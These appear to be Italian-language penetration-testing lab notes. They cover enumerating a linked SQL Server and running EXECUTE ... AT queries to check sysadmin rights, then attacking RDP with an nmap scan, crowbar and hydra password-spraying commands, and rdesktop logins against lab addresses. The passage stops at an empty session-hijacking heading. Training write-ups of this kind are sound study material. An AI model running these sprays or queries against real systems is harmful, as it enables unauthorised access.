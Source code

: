 ### Identifying linked server

```
1> SELECT srvname, isremote FROM sysservers
2> GO

srvname                             isremote
----------------------------------- --------
DESKTOP-MFERMN4\SQLEXPRESS          1
10.0.0.12\SQLEXPRESS                0
```

vediamo che il primo e' remoto., invece il secondo c'e' 0 quindi e' un Linked Server

Possiamo usare lo statement **EXECUTE** per eseguire comandi sul linked server

```
1> EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]
2> GO

------------------------------ ------------------------------ ------------------------------ -----------
DESKTOP-0L9D4KA\SQLEXPRESS     Microsoft SQL Server 2019 (RTM sa_remote                                1

```

# Attacking RDP

### Enum
`j4k1dibe@htb[/htb]# nmap -Pn -p3389 192.168.2.143 `

## Misconfiguration

Un metodo semplice **Password guessing**., a volte potremmo pure trovare un RDP senza password

Usando **crowbar (https://github.com/galkan/crowbar)** possiamo fare password spraying su RDP

### PAssword spray con crowbar
`j4k1dibe@htb[/htb]# crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'`

### Password spray con Hydra
`j4k1dibe@htb[/htb]# hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp`

### RDP Login
`j4k1dibe@htb[/htb]# rdesktop -u admin -p password123 192.168.2.143`

`xfreerdp /v:host /u:username`

## Protocol specific attacks
## RDP Session Hijacking

